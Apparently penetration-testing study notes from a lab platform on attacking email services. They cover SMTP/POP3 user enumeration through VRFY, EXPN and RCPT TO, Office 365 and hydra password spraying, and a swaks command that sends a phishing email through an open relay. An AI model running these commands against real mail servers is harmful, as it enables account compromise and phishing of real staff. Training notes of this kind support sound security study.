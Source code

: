 

Common Ports
![[Pasted image 20240924215757.png]]

nmap scan 
```shell-session
sudo nmap -Pn -sV -sC -p25,143,110,465,587,993,995 10.129.14.128
```


Finding mail servers

```shell-session
host -t MX hackthebox.eu
```

Finding ip address linked to mail server through A record
```shell-session
host -t A mail1.inlanefreight.htb
```


Using telnet for email enumeration via VRFY function
```shell-session
Auzzie@htb[/htb]$ telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


VRFY root

252 2.0.0 root


VRFY www-data

252 2.0.0 www-data


VRFY new-user

550 5.1.1 <new-user>: Recipient address rejected: User unknown in local recipient table
```

Using telnet for user enumeration 
```shell-session
Auzzie@htb[/htb]$ telnet 10.10.110.20 110

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
+OK POP3 Server ready

USER julio

-ERR


USER john

+OK
```

Using telnet to list email distribution list via EXPN
```shell-session
Auzzie@htb[/htb]$ telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


EXPN john

250 2.1.0 john@inlanefreight.htb


EXPN support-team

250 2.0.0 carol@inlanefreight.htb
250 2.1.5 elisa@inlanefreight.htb
```


Using telnet to perform recipient enumeration via RCPT TO
```shell-session
Auzzie@htb[/htb]$ telnet 10.10.110.20 25

Trying 10.10.110.20...
Connected to 10.10.110.20.
Escape character is '^]'.
220 parrot ESMTP Postfix (Debian/GNU)


MAIL FROM:test@htb.com
it is
250 2.1.0 test@htb.com... Sender ok


RCPT TO:julio

550 5.1.1 julio... User unknown
```

Automated tools 
https://github.com/pentestmonkey/smtp-user-enum
```shell-session
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

Office365 username enumeration
https://github.com/0xZDH/o365spray

Check if using office 365
```shell-session
python3 o365spray.py --validate --domain msplaintext.xyz
```

Office 365 user enumeration
```shell-session
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz   
```

Office 365 password spraying
```shell-session
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

Password spraying via pop3
```shell-session
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

Identifying open relay mail servers
```shell-session
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213
```

Abusing open relay to send email
```shell-session
swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```
